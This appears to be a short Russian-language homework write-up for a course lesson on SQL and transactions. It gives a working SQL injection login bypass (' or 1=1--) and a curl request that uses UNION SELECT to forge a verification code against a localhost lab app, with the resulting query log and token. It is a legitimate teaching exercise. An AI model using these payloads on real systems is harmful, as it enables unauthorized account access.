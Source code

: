 # Домашнее задание к занятию «1.3. SQL и транзакции»
## Задание «Логин и пароль»
### Результаты выполнения задания

Логин - `' or 1=1--`
Пароль - любой

Логи запросов:
```
SELECT * FROM users WHERE login = '' or 1=1--' AND password = '69138d7eee76e3b7da51a1dad3a0613c7c7894e362b327b190912a5a176dfb09de3faf447870579bcfc2fd748b4639bb82bfc578fdf3fa293d342bf116e86c8b' AND removed = FALSE
```
Сработала передача конструкции комментария `--` и следующее условие проверки пароля уже не срабатывает.

## Код подтверждения*
### Результаты выполнения задания

Запрос:  
```
 curl 'http://localhost:8888/api/auth/verification'    --request POST    -H 'Content-Type: application/json'    --data-raw $'{"login":"masha\' Union select 10000,\'masha\', \'12345\', 1, \'2022-12-15 12:35:35.422282-04","code":"12345"}'
```

Ответ:
```
{"token":"35db3ce8ac53fb22371a3b5e32259c0e24e37d016296a48fecf0ec43dcf8195dc1302011f1a986f589350bccfb7b192af8268fbff55f09c599ef310a896c0521fb458567b59a24678f86ff5b8793f2cce8337ce4ac6fb1523ede9b63a7b5860ff52dd4fdf56ea1e2e821aa6dfb888ed9fecf12560ba654eb21f397d9a42b840f"}
```